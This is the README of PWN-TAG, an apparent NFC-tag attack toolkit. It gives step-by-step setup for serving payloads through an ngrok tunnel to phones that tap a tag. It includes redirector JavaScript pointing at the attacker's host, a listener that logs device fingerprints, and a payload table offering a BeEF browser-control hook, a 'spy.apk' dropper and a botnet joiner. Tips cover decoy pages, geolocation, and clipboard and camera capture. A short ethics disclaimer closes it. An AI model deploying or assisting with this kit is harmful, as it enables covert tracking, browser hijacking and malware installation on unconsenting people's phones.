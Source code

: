 # PWN-TAG  PRO \ use with paid ngrok accounts
_"tag to pwn"_ — NFC payload delivery system for social engineering, red team ops, and mobile testing.

PWN-TAG lets you write NFC tags that trigger live payloads on mobile devices — from fingerprinting to botnet enrollment. Built for ethical hackers, educators, defenders, and curious minds.

---

##  What You Need

*  NFC tag stickers (\~\$10 for 25):
  [https://a.co/d/gl2XRV8](https://a.co/d/gl2XRV8)

*  NFC writer app (free):
  [https://apps.apple.com/app/id1252962749](https://apps.apple.com/app/id1252962749)

*  A Debian-based Linux system 

*  A [ngrok](https://ngrok.com/) account (free or paid)


---

##  Installation (Clone + Setup)

```bash
git clone https://github.com/ekomsSavior/PWN-TAG.git
cd PWN-TAG
```

# (Optional) Switch to pro version for static subdomain support thru paid ngrok acct

```bash
git checkout pwn_tag_pro
```

for free ngrok account use main branch:

```bash
git checkout main
```

# Install Python dependencies

```bash
sudo apt update
sudo apt install python3 python3-pip -y
pip3 install flask
```

## ngrok Setup

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
tar -xvzf ngrok-v3-stable-linux-amd64.tgz
sudo mv ngrok /usr/local/bin/
```

Then authenticate your token: [https://ngrok.com/](https://ngrok.com/)

```bash
ngrok config add-authtoken <YOUR_NGROK_AUTH_TOKEN>
```


---

##  Usage (4 Terminal Workflow)

### Terminal 1 — Start Payload Server

```bash
python3 -m http.server 8080
```

This serves your payloads at `http://localhost:8080`

---

### Terminal 2 — Start ngrok Tunnel

```bash
ngrok http 8080
```

Copy the `https://...ngrok.app` URL — this becomes your **NFC tag link**.

---

### Terminal 3 — Edit Payload Redirector

```bash
nano payloads/test_shell.html
```

Update this line with your current ngrok URL:

```javascript
window.location.href = "https://your-ngrok-subdomain.ngrok.app/payloads/bot_joiner.html";
```

---

### Terminal 4 — Start Listener

```bash
python3 listener.py
```

Logs any device fingerprinting or interaction data sent by payloads.

---

## Write Your NFC Tag

Using your NFC writer app:

1. Tap **Write**
2. Add Record → **URL**
3. Paste something like:

```
https://pwn-tag.ngrok.app/payloads/test_shell.html
```

4. Tap “Write” to encode it

 Now when someone taps the tag, it opens the redirector → logs the device → delivers your payload.

---

##  Payload Options (Examples & Use Cases)

| Payload               | Path                       | Description                                                         |
| --------------------- | -------------------------- | ------------------------------------------------------------------- |
| **Test Shell**        | `payloads/test_shell.html` | Logs fingerprint (user agent, screen size, timezone) then redirects |
| **Full Beacon Shell** | `payloads/beef_shell.html` | Loads a BEEF hook for browser control (if server is running)        |
| **APK Dropper**       | `payloads/spy.apk`         | Sends Android users a direct APK (custom implants welcome)          |
| **Rogue Joiner**      | `payloads/bot_joiner.html` | Simulates Rogue Botnet join — connect, beacon, execute JS           |

---

##  Swapping Payloads (Beginner-Friendly)

1. Open `payloads/test_shell.html`
2. Change this line:

```javascript
window.location.href = "https://your-ngrok.ngrok.app/payloads/YOUR_FILE_HERE";
```

3. Example:

```javascript
window.location.href = "https://pwn-tag.ngrok.app/payloads/spy.apk";
```

 No need to rewrite the NFC tag if you're using a static domain — just update the file.

---

##  Pro Tips

*  Make multiple redirectors (`redirect_to_apk.html`, etc.)
*  Make `index.html` a 403 decoy or fake blog
*  Want geolocation? Use `https://ipinfo.io/json` in your JS
*  Want deep traps? Chain to `clipboard.js`, `camlog`, etc. before redirect
*  With static domains (`ngrok-pro`), your NFC tags are reusable forever

---

##  Ethical Usage

This tool is intended for **educational purposes, red-team ops, and ethical testing only**.
You are responsible for your actions. Do not use this on devices or individuals without consent.

---


- ✅ `setup_repo.sh` for auto-deployment
- ✅ A `payloads/README.md` to explain each file
- ✅ BEEF hook setup instructions
- ✅ QR code payload variants for phones with no NFC

Let’s make this repo unforgettable 🌐💥
```
